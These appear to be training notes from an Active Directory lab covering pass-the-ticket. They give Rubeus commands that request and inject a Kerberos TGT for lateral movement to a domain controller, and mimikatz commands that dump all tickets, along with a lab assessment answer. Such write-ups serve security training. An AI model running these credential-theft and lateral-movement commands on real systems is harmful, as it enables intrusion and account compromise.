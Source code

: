 ```
```

**Rubeus - PowerShell Remoting with Pass the Ticket**

1.  **Create a Sacrificial Process with Rubeus**

    ```cmd-session
    Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
    ```

    command will open a new cmd window, we can execute Rubeus to request a new TGT with the option `/ptt` on that new cmd as follow.
2.  **Rubeus - Pass the Ticket for Lateral Movement**\


    ```powershell
    c:\tools>Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
    c:\tools>powershell
    Windows PowerShell
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\tools> Enter-PSSession -ComputerName DC01
    [DC01]: PS C:\Users\john\Documents> whoami
    inlanefreight\john
    [DC01]: PS C:\Users\john\Documents> hostname
    DC01
    ```

### **Assesment**

Connect to the target machine using RDP and the provided creds. Export all tickets present on the computer. How many users TGT did you collect?

* 3

```
c:\tools> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

<figure><img src="../../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption><p>total TGT found</p></figcaption></figure>

